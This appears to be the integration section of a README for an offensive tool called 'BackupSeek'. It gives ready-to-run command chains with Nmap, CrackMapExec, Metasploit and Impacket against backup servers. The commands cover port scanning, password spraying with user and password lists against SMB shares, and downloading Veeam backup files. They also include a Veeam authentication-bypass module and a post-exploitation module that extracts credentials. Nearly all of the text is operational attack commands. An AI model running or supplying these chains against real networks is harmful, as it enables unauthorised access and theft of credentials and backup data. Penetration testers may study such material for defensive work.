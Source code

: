 ## Integration with Other Tools

### With Nmap
```bash
# 1. Fast port discovery with Nmap
nmap -p 9392,9393,9401,9419,9876,44445,9101-9103 \
     192.168.10.0/24 -oG backup_ports.txt

# 2. Extract live hosts
grep "open" backup_ports.txt | cut -d' ' -f2 > backup_ips.txt

# 3. Detailed scan with BackupSeek
./backupseek.py backup_ips.txt --full
```

### With CrackMapExec
```bash
# 1. Discover backup servers
./backupseek.py targets.txt --full

# 2. Test credentials against backup shares
for ip in $(cat backuplist.txt); do
    crackmapexec smb $ip -u userlist.txt -p passlist.txt --shares
done

# 3. Access found shares
crackmapexec smb 192.168.10.50 -u admin -p 'P@ssw0rd' \
    --share VeeamBackup --get-file backup.vbk
```

### With Metasploit
```bash
# 1. Identify Veeam servers
./backupseek.py targets.txt --veeam

# 2. Use Metasploit modules
msfconsole
use auxiliary/scanner/veeam/veeam_backup_manager_auth_bypass
set RHOSTS file:backuplist.txt
run

# 3. Veeam credential extraction
use post/windows/gather/credentials/veeam_backup_manager
set SESSION 1
run
```

### With Impacket
```bash
# 1. Find backup servers with shares
./backupseek.py targets.txt --full
# Found: \\192.168.10.50\VeeamBackup

# 2. Use smbclient.py to access
smbclient.py domain/user:password@192.168.10.50

# 3. List and download
# use VeeamBackup
# ls
# get backup_file.vbk
```
